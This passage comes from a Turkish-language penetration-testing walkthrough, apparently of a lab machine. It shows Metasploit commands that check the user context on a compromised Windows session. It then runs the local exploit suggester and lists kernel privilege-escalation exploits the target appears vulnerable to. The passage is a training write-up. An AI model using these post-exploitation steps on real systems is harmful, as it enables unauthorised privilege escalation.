 Artık aynı komutu çalıştırdığımızda başarılı olabiliriz:

```text
getuid
```

```text title="Output"
Server username: NT AUTHORITY\NETWORK SERVICE
```

## MSF - Session Handling

Yetkilerimizi daha da yükseltmek için bir modül arayalım:

```text
search local_exploit_suggester
```

```text title="Output"
Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester
```

Recon modülünü seçelim:

```text
use post/multi/recon/local_exploit_suggester
```

Daha önceden edinilen ve arka plana taşınan oturumu kullanacağız:

```text
set SESSION 1
```

Modülü çalıştırıyoruz:

```text
run
```

```text title="Output"
[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 34 exploit checks are being tried...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```
